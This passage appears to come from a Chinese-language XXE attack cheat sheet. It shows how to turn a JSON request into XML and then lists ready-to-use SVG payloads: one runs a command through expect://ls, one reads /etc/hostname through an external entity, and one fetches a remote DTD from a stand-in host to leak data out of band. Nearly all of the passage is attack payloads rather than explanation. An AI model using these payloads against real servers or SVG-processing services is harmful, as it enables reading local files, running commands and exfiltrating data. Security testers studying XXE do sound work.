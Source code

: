 | Content Type       | 数据                               |
| ------------------ | ---------------------------------- |
| `application/json` | `{"search":"name","value":"test"}` |
| `application/xml`  | `<?xml version="1.0" encoding="UTF-8" ?><root><search>name</search><value>data</value></root>` |

- XML文档必须包含一个根元素`<root>`，它是所有其他元素的父元素。
- 数据也必须转换为XML，否则服务器将返回错误。

```json
{
  "errors":{
    "errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."
  }
}
```

- [NetSPI/Content-Type Converter](https://github.com/NetSPI/Burp-Extensions/releases/tag/1.4)

## 奇异文件中的XXE

### SVG中的XXE

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**经典**：

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**通过SVG栅格化进行OOB**：

_xxe.svg_:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```
